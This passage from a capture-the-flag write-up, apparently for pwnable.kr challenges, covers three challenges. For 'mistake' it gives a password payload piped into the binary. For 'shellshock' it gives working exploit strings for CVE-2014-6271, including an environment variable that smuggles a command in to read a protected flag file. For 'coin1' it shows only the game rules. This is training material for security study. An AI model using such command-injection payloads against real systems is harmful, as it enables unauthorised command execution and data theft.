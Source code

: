 payload: `` python -c "print 'a'*10 + '\n' + chr(ord('a')^1)*10 + '\n'"``

```bash
mistake@ubuntu:~$ python -c "print 'a'*10 + '\n' + chr(ord('a')^1)*10 + '\n'" | ./mistake
do not bruteforce...
input password : Password OK
Mommy, the operator priority always confuses me :(
```

## 9. shellshock
shellshock.c
```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

shellshock is a vulnerability in the unix shell

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

This specially crafted environment variable makes the ``ehco vulnerable`` get executed rather than ``echo this is a test``.

payload: ``export x='() { :;}; /bin/cat flag'``

```bash
shellshock@ubuntu:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```

## 10. coin1
```

        ---------------------------------------------------
        -              Shall we play a game?              -
        ---------------------------------------------------

        You have given some gold coins in your hand
        however, there is one counterfeit coin among them
        counterfeit coin looks exactly same as real coin
        however, its weight is different from real one
        real coin weighs 10, counterfeit coin weighes 9
        help me to find the counterfeit coin with a scale
        if you find 100 counterfeit coins, you will get reward :)
        FYI, you have 60 seconds.

        - How to play -
        1. you get a number of coins (N) and number of chances (C)
        2. then you specify a set of index numbers of coins to be weighed
        3. you get the weight information
        4. 2~3 repeats C time, then you give the answer

        - Example -
        [Server] N=4 C=2        # find counterfeit among 4 coins with 2 trial
        [Client] 0 1            # weigh first and second coin
        [Server] 20                     # scale result : 20
        [Client] 3                      # weigh fourth coin
        [Server] 10                     # scale result : 10
        [Client] 2                      # counterfeit coin is third!
```
